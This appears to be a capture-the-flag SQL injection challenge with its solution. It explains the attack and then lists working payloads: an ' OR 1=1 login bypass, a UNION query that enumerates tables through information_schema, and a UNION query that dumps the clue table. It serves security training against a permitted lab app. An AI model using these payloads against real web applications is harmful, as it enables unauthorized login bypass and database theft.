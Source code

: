 # SQL injection challenge

This challenge is about **⁠⁠⁠web application security**⁠⁠⁠. The clue in this challenge is hidden in a web application, and not accessible through normal use of the application, so you'll need to hack it.

**⁠⁠SQL injection attacks**⁠⁠⁠ (SQLi) are used by hackers to bypass authentication, read sensitive data, or modify the information in a database. This can occur whenever unsanitized user input is part of an SQL query and could allow the attacker to change, or insert additional SQL statements into the code. It is one of the most severe risks to modern web applications, has been **⁠ranked the #1 risk by OWASP** since 2010 and **⁠⁠⁠constitutes over 44% of the web application attacks**⁠⁠⁠ recorded by Akamai in Q2 2016.

This website is vulnerable to SQLi, and you are granted permission to attack the application in order to retrieve the clue. **⁠⁠⁠The challenge is to bypass the login and find the clue**⁠⁠⁠ by using the search field that is shown when you are authenticated. You will have to use common SQLi tricks such as `⁠⁠⁠⁠' OR 1=1`⁠⁠⁠⁠ and merge datasets with `⁠⁠⁠⁠UNION`⁠⁠⁠⁠. When you are logged in you need to find a way to get a list of all tables in the database and finally get data from the table which seems to include the most interesting data.

## Login
**Username:** <code>admin</code>  
**Password:** <code>' OR 1=1 -- </code> (include the space at the end)

## Search Box -- Get table names
**Search Input:** <code>' UNION ALL SELECT table_name, 1, 1 FROM information_schema.tables WHERE table_schema=database() -- </code> (include the space at the end)

## Search Box -- Get Challenge Clue
**Search Input:** <code>' UNION ALL SELECT *, 1 FROM challenge_clue -- </code> (include the space at the end)
